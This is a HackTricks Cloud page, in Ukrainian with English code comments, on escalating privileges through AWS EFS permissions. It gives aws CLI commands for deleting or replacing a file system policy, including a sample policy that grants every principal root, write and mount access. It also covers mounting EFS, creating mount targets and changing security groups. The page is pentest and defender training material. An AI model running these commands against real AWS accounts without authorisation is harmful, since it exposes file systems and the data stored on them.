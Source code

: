 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Більше **інформації про EFS** в:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Пам'ятайте, що для монтування EFS вам потрібно бути в підмережі, де EFS відкритий, і мати доступ до нього (групи безпеки). Якщо це відбувається, за замовчуванням ви завжди зможете його змонтувати, однак, якщо він захищений політиками IAM, вам потрібно мати додаткові дозволи, згадані тут, щоб отримати доступ.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

З будь-яким з цих дозволів зловмисник може **змінити політику файлової системи**, щоб **надати вам доступ** до неї або просто **видалити її**, щоб **забезпечити доступ за замовчуванням**.

Щоб видалити політику:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Щоб змінити це:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

З цією дозволом зловмисник зможе **підключити EFS**. Якщо дозвіл на запис за замовчуванням не надано всім, хто може підключити EFS, він матиме лише **доступ для читання**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Додаткові дозволи `elasticfilesystem:ClientRootAccess` та `elasticfilesystem:ClientWrite` можуть бути використані для **запису** всередині файлової системи після її монтування та для **доступу** до цієї файлової системи **як root**.

**Потенційний вплив:** Непряме підвищення привілеїв шляхом знаходження чутливої інформації у файловій системі.

### `elasticfilesystem:CreateMountTarget`

Якщо ви, атакуючий, знаходитесь у **підмережі**, де **немає цільового монту** EFS. Ви можете просто **створити один у своїй підмережі** з цим привілеєм:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Потенційний вплив:** Непряме підвищення привілеїв шляхом знаходження чутливої інформації у файловій системі.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

У сценарії, де зловмисник виявляє, що EFS має точку монтування у його підмережі, але **жодна група безпеки не дозволяє трафік**, він може просто **змінити це, модифікувавши вибрані групи безпеки**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Потенційний вплив:** Непряме підвищення привілеїв шляхом виявлення чутливої інформації у файловій системі.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

